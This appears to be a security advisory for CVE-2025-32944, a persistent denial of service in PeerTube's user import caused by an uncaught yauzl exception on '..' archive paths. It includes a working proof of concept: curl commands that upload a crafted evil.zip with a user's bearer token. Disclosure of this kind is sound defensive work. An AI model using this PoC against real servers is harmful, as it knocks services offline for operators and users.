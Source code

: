 ```yaml
---
description: CVE-2025-32944 Medium severity. PeerTube User Import Authenticated Persistent Denial of Service
title: PeerTube User Import Authenticated Persistent Denial of Service
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32944
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
An Uncaught Exception in PeerTube can lead to a persistent Denial of Service in User Import.

This vulnerability allows any authenticated user to cause the server to stop functioning in a persistent manner.



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
If the yauzl library encounters a filename that is considered illegal, [it raises an exception](https://github.com/thejoshwolfe/yauzl/blob/de292f220268473eb20aef64b0a77faa9d004d9a/index.js#L737). For example, if a filename includes “..” in one of its parts, an “invalid relative path” error is raised. PeerTube does not catch this exception, thus it crashes. Even after starting the server again, it tries to read the file and crashes again, causing a permanent denial of service until the file is deleted from the system.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a file `evil.zip` in the current directory, which contains at least one zip entry with a `..` in its path
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will crash, and will keep crashing as long as the ZIP file is not deleted from the system.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)
